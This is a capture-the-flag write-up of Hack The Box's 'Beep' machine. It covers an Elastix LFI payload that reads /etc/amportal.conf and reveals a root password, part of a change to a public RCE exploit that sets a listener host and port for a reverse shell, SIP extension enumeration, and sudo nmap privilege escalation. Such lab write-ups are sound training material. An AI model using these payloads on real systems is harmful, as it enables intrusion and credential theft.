


# Beep

### Machine Info:


#### Nmap:


##### Webmin Server (Port 10000):
Tried to login with default/common credentials but failed.


##### Web application 'Elastix' (Port 80):


First I tried to login with default/common credentials but failed.
After that I just searched for elastix if it has vulnerability.


Seems like it has some vulnerability but I do not know which version is running.
Let's just start with 'graph.php' LFI vulnerability.

From the exploit `37637.pl`:
```
#LFI Exploit:
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Access to that address to check vulnerability:
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```


###### The web application has vulnerability in LFI(Local File Inclusion)!!

Another example(/etc/passwd):


#### Vulnerability:
The websever is running `Elastix 2.2.0` and the application is vulnerable to LFI (Local File Inclusion) and also RCE (Remote Code Execution) is possible.


##### Exploits:

###### Method 1 (LFI):
By using the LFI, it is able to read some files. The file /etc/amportal.conf includes the passwords of root, `jEhdIekWmdjE`

And SSH:


<br></br>

###### Method 2 (RCE):
```
Exploit Code: https://www.exploit-db.com/exploits/18650
```

Modification of exploit:
```
import urllib,ssl                                                                                                                                                                                                                                             
rhost="10.10.10.7"                                                                                                                                                                                                                                            
lhost="10.10.14.37"                                                                                                                                                                                                                                           
lport=4444                                                                                                                                                                                                                                                    
extension="233"                                                                                                                                                                                                                                              

ssl._create_default_https_context=ssl._create_unverified_context
```

To find out valid extension which is 233:
```
❯ svwar -m INVITE -e200-300 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
WARNING:TakeASip:extension '202' probably exists but the response is unexpected
| Extension | Authentication |
------------------------------
| 202       | weird          |
| 233       | reqauth        |

```

`SIPVicious` is a Session Initiation Protocol (SIP) auditing tool that has been observed to be used in increasing reconnaissance attacks against IP and VoIP phones and PBX systems.

`svwar` identifies working extension lines on a PBX. A working
extension is one that can be registered.
Also tells you if the extension line requires authentication or not.

Further reference: https://tools.cisco.com/security/center/viewAlert.x?alertId=33141


###### Execute exploit:
```
~/htb/beep
❯ python 18650.py
```
###### Netcat Listener:


<br></br>


#### Privilege Escalation
For the first method, we are already `root` user, therefore we don't need to escalate our privilege. But the second method, we are user `asterisk` which is not root user which means we have to escalate our privilege.

First check for `sudo`:


User asterisk can run commands such as `nmap, touch, chmod` with root privilege.

##### Exploit:
We can run `nmap` with root privilege and we can get root shell eventually.


And you can get `root.txt` :)
